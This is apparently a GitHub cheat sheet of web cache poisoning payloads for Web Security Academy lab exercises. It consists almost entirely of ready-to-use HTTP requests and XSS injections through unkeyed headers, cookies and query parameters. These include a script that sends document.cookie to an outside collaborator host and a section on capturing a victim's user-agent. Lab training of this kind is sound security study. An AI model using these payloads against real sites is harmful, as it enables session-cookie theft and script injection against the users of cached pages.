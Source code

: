# Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:
```
  go to the **exploit server** ->

  in "file": /recources/js/tracking.js
  in "body": document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```
![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``
## Web cache poisoning with an unkeyed cookie:
``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

``
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
``
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.
``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``
## Web cache poisoning via an unkeyed query string
``
/?search=evil'/><script>alert(1)</script>
Origin:x
``
## Web cache poisoning via an unkeyed query parameter
``
GET /?utm_content=123'/><script>alert(1)</script>
``
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``
## Web cache poisoning via a fat GET request
``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``
## URL normalization
``
/random"><script>alert(1)</script> 
``
or

``
GET /random</p><script>alert(1)</script><p>foo
``

Cache this path and then deliver URL to the victim
